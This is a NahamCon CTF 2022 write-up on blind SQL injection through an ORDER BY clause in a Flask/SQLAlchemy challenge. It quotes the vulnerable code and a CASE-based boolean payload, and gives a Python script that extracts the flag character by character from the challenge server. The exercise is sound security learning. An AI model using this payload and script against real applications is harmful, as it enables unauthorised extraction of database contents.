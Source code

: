 # NahamCon CTF 2022
## _Blind SQL Injection_

### Introduction 
After spending the last month learning about each vulnerability and practising through labs. I had the oppportunity to evalute what I've leant so far through **_NahamCon CTF_** along with that my team **_Arr3stY0u_**.

I mostly enjoyed a Blind SQL Injection task so I thought why not sharing a writeup. 

### Flaskmetal Alchemist - 168 points  - 260 Solves (medium)

![alt text](https://i.imgur.com/PfXdjUZ.png)

The website contained a search bar having a Sort By drop-down list with 3 options: Name, Symbol and Atomic Number. **SQL Injection.. is it you ?**

I took a look at the source code provided. 

![alt text](https://i.imgur.com/f2s7lit.png)

Here, the most interesting line is :

``` 
metals = Metal.query.filter(
                Metal.name.like("%{}%".format(search))
            ).order_by(text(order))
``` 

After some google research, we can understand through the previous line of code that the injection point is the ORDER_BY CLAUSE since it takes the result of the text() function - _which allows us to excecute SQL statements_ - as argument.  
Using burpsuite, it is possible to intercept the request and change the post parameters. 

First, let's check our methodology.
Knowing that we control the ORDER_BY CLAUSE, we can trigger any SQL Statement we want to be executed. 
To verify this, I used the following payload:

``` 
search=Li&order=(SELECT (CASE WHEN (1=1) THEN atomic_number else name END)); 
```

##### PS: I tried using the IF statement but it didn't work since it is only executed in the beggining of a query. Fortunately, "CASE" has the same function.

* **When true: the table is ordered by Atomic Number ==>** 

![alt text](https://i.imgur.com/sRAz5ba.png)

* **When false: the table is ordered by Name ==>**

![alt text](https://i.imgur.com/rg79P2L.png)

At this level, we made sure that according to the order of the elements, we can figure out if the condition we set in the CASE Statement is True or False. 
This comes to say that, in order to exfiltrate the flag, we can compare each character based on the True/False method.
To do so, we used the SUBSTR() function to parse the string character by character. We were also given in the source code the table and the column name where we can find the flag. 

Therefore, in order to automate this, I wrote the following script:
```
import requests, time

s = requests.Session()
dictionary = ['a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z','_','{','}']
URL = "http://challenge.nahamcon.com:31148/"
final = ""
for i in range(1,30):
        for x in dictionary:
                exploit = "(SELECT (CASE WHEN (SUBSTR((SELECT flag FROM flag)," + str(i) + ",1) = '" + x + "')THEN atomic_number else name END));"
                #print exploit
                data = {'search' : 'Li' , 'order' : exploit }
                r = s.post(url = URL , data = data)
                #print(r.text)
                #print(r.text.index("Li"))
                if r.text.index("Li") == 2657 :
                        final = final + x
                        print "Leaking contents: " + final
                        break

```

And now we go eat something while our script is running ! 

![alt text](https://i.imgur.com/UvP81lP.png)

Aaand VOILAA ! 

### Conclusion
To sum up, this task sharpened my scripting skills; I also had the opportunity to dive in more into SQL Injection types. I congratulate the author and I look forward to the next edition.

